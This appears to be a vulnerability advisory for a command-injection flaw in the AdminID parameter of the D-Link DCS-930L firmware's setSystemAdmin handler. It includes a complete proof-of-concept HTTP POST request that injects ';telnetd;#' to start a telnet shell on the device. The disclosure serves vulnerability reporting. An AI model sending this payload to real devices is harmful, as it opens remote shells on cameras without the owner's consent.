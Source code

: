 **Affected Product**: D-Link DCS930L

**Affected Firmware Versions**:  2.16.0.1

**Vulnerability Type**: Command Execution


------
### **Vulnerability Description**

In the latest firmware (v2.16.0.1) for the D-Link DCS-930L, a command-injection vulnerability was discovered that allows remote attackers to execute arbitrary OS commands via crafted requests. 


---
### **Vulnerability Details**

![image-1](./img/1.png)
Within the `setSystemAdmin` handler in the `alphapd` binary, the `AdminID` value is sourced directly from attacker-controlled input and is subsequently interpolated into shell commands without proper sanitization or escaping. This makes it possible for an attacker to craft an `AdminID` that triggers arbitrary command execution.

---
### **PoC**
We set `AdminID` as **';telnetd;#** , and the router will excute it,such as:

```
POST /setSystemAdmin HTTP/1.1
Host: 192.168.0.163
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 113
Origin: http://192.168.0.163
Authorization: Basic YWRtaW46
Connection: close
Referer: http://192.168.0.163/advanced.htm
Upgrade-Insecure-Requests: 1
Priority: u=0, i

ReplySuccessPage=advanced.htm&ReplyErrorPage=errradv.htm&AdminID=';telnetd;#&AdminPassword=admin&ConfigSystemAdmin=Save
```

Get a shell!
![image-2](./img/2.png)
